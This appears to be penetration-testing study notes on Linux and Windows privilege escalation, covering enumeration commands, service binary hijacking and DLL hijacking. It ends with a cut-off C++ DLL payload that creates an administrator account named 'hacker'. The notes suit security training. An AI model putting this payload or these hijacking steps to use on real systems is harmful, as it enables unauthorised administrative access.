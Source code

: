 ```bash
#List running processes
"ps aux"
#List scheduled cron jobs: 
"crontab -l" #local 
"ls -al /etc/cron*" #system-wide
# Active Process Monitoring
https://github.com/DominicBreuker/pspy
```
- <mark>Automation</mark>
```bash
#LinEnum: bash script that automates common Linux local enumeration checks in addition to identifying privilege escalation vulnerabilities.
https://github.com/rebootuser/LinEnum
# LinPEAS: script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
```
### PrivEsc-Windows
#### Service Binary Hijacking
- List Running Services
```powershell
Get-CimInstance win32_service | Select Name,StartName,PathName,State | Where-Object {$_.State -like 'Running'}
```
- Inspecting Binary Permissions
```powershell
Get-Acl [Binary_Path] | Select-Object -ExpandProperty Access | Select-Object FileSystemRights, AccessControlType, IdentityReference | Format-Table -AutoSize
```
- Inspecting Service Start Mode
```powershell
Get-CimInstance win32_service | Select Name, StartMode | Where-Object {$_.Name -like '[Service_Name]'}
```
#### Service DLL Hijacking
- `DLL Overwrite`
- `DLL Search Order Hijack`
	- `Missing DLL` is considered a special case.
		- `Process Monitor` can be useful in identifying DLLs loaded and ones that are missing. 
		- However, `Process Monitor` requires Administration privilege, hence, the executable is usually transferred to the attacker machine to perform the above step.
	- <mark>Note</mark>: Below is the standard search order. However, when safe DLL search mode is **disabled**, the `current directory` is searched at position 2.
	1. The directory from which the application loaded.
	2. The system directory.
	3. The 16-bit system directory.
	4. The Windows directory. 
	5. The current directory.
	6. The directories that are listed in the PATH environment variable.
- Compile following with `x86_64-w64-mingw32-gcc myDLL.cpp --shared -o [Name].dll`
```C++
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
	switch ( ul_reason_for_call )
	{
		case DLL_PROCESS_ATTACH: // A process is loading the DLL.
		int i;
		i = system ("net user hacker hacker /add");
		i = system ("net localgroup administrators hacker /add");
```